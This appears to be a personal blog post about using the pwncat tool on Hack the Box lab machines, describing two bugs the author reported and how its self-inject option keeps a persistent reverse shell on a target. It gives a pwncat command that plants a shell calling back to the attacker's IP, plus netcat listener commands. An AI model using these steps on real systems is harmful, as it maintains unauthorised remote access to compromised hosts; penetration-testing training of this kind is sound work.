 ```yaml
---
layout: post
author: dalemazza
title: Pwncat - Netcat on steroids!  
date: 2020-06-21
category: blog
tags: blog
---
```



## Do you hate when you Ctrl+c in a reverse shell and lose it? I did until I found Pwncat!  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat.jpg">
</p>

Recently I was doing a machine on Hack the box, I managed to get a reverse shell on the machine but it was flaky and kept crashing on me. This got me thinking that surely someone somewhere has made a script to fix this problem?  

After some google fu I stumbled across this [github](https://github.com/cytopia/pwncat) repo. It had everything I had ever dreamed about in one tool! Some highlights include:  

* Port Scanning
* Self-injecting reverse shell
* Bind shell
* Reverse shell
* Port forwarding
* Protection from Ctrl+c !!!!!!
* Evade IPS and Firewall
* Plus much more!

I had to try this tool! So I cloned the repo and put it to the test. I quickly wanted to try the `--self-inject` function out. To my surprise it caught the reverse shell but did not work after after upgrading the shell to TTY.  
<p>&nbsp;</p>

## Bug 1  


During the process to upgrade the shell to TTY I found that the shell would crash after the last stage of returning to the shell with the command `fg`. I then approached the creator on github and entered the issue as a bug. The creator quickly resolved the issue, It was related to how the shell interpreted the “enter” after the `fg`. The bug was fixed, Now to try again!  
<p>&nbsp;</p>

## Bug 2  


Now I had a full TTY shell. I went back and tried to catch the shell again but with the `--self-inject` flag. After setting up the pwncat listener with the inject flag `pwncat -l 1234 --self-inject /bin/bash:10.10.14.28:1234` I quickly learnt that it was not injecting into a python binary. Once again I submitted this as a bug and he quickly solved the issue. This time it was related to the way the reverse shell sends back the shell, he had to change the way pwncat behaved to interpret many types of reverse shell. 1 day later he sent me a message saying he had a fix! Third times the charm.
<p>&nbsp;</p>
---
## How does it work?  

As the client (reverse shell) connects to the your host machine it does the following:  

1. Enumerate Python availability and versions on the target.
2. Dump itself base64 encoded onto the target.
3. Use the target’s Python to decode itself.
4. Use the target’s Python to start itself as an unbreakable reverse shell back to you .

Once this is done the client will constantly send back a reverse shell to the ip/port you specified in pwncat, So if you break the shell all you have to do is set up a listener of your choice and listen for the reverse shell. This is massive as most reverse shells rely on you running an exploit each time to spawn the shell, This way you only have to run the exploit once.  
<p>&nbsp;</p>
---

## Heres how to do it  

First you need a client with a reverse shell set up for your machine and port. Next you need to run this command:  
```bash
pwncat -l 1234 –self-inject /bin/bash:10.10.14.28:1234
```
The command breaks down into the following, pwncat listening on port 1234, running the inject flag, spawning a bash shell to the ip and port of your machine. It should like a little something like this.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat1.png">
</p>
#### Fig 1. The result of injecting to a unbreakable shell
<p>&nbsp;</p>

Now your shell should be unbreakable! to test this press Ctrl+c , this should break the shell. Now all you have to do it run a listener here are some examples:
```bash
nc -lvnp 1234
pwncat -l 1234
```  
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat2.png">
</p>
#### Fig 2. Here I Ctrl+c out of the shell, Then use a simple listener to catch the shell again.
<p>&nbsp;</p>
You now have your shell back without re-running exploits or reverse shells! I hope this helps you out.
